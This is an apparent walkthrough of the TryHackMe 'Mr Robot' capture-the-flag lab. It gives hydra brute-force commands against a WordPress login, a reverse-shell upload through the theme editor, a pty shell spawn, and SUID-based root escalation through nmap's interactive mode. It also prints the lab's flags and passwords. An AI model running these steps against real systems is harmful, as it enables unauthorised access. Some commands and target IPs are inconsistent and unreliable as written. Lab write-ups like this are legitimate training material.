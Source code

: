 Room: Mr Robot CTF
Link: https://tryhackme.com/room/mrrobot

MACHINE IP: 10.10.72.216
   
   NMAP SCAN RESULTS:
     22 CLOSED  SSH
     80 OPEN    HTTP
     443 OPEN   SSL/HTTP

 DIRECTORY SCAN RESULTS:
   http://10.10.72.216/0/                                                                                      
   http://10.10.72.216/admin/
   http://10.10.72.216/audio/ 
   http://10.10.72.216/blog/ 
    http://10.10.72.216/css/  
   http://10.10.72.216/feed/
    http://10.10.72.216/image/                                                                                  
==> DIRECTORY: http://10.10.72.216/Image/                                                                                  
==> DIRECTORY: http://10.10.72.216/images/

#KEY 1
    GOTO: http://machine ip/robots
    there is txt file
    wget http://10.10.72.216/key-1-of-3.txt
    cat txt file
  KEY 1: 073403c8a58a1f80d943455fb30724b9


 Now let's hunt for key 2.

     wget http://10.10.72.216/fsocity.dic
     now we use command:  sort fsocity.dic | uniq > sorted.dic
     Sorting the list will make it easier for bruteforcing and take less time.

hydra -l /home/ghost/tryhackme/mrrobot/fsocitydic -p test machine ip http-post-form "/wp login.php:log=^USER^&PWD=^PWD^:Invalid Username" -t 30

 By bruteforce we find the username is: Elliot

NOW, passwd bruteforce
hydra -l Elliot -P /home/ghost/tryhackme/mrrobot/fsocity.dic 10.10.173.126 http-post-form "/wp login.php:log=^USER^&PWD=^PWD^:The password you entered for the username" -t 30

FINALLY GOT THE PASSWORD:  ER28-0652

After logging in via the creds
go to archive.php in appereance section and
upload the reverse shell php script
GO TO THIS URL TO RUN THE SCRIPT:  
 http://10.10.164.231/wp-content/themes/twentyfifteen/archive.php
Then you will get a reverse shell on your terminal.

 After getting the reverse shell we move to home/robot
 content of robot directory:
    key-2-of-3.txt
    password.raw-md5

 We can't read the txt file
 Reading the contents of passwd file: robot:c3fcd3d76192e4007dfb496cca67e13b
 USE CRACSTATION.NET TO CRACK THE HASH
 RESULT: abcdefghijklmnopqrstuvwxyz

 Now try to access on robot user and switching to robot user we can not open terminal from /bin/sh –i

 For terminal access now using here python shell spawning script.
  python -c 'import pty; pty.spawn("/bin/bash")'
AFTER THIS: su robot
            entering the password we got from decrypting md5 hash.

      We found KEY 2: 822c73956184f694993bede3eb39f959

Now looking for third no. of key,for that switching to root and for root will perform privilege escalation ,

For that figure out which programs have SUID (set owner user id upon execution) of 4000 , so here we run find command
  find / -perm /4000 -print 2>/dev/null
 Since nmap is given in question hint and it is running as root.
 Check the version of nmap 
    nmap --version (since it is very old in this machine it can be exploited)
  
  run nmap in interactive mode 
  nmap --interactive
  and then 
     nmap> !sh 
  BAM! YOU GOT THE ROOT SHELL
  Go to the root directory and grab the key!
  04787ddef27c3dee1ee161b21670b4e4

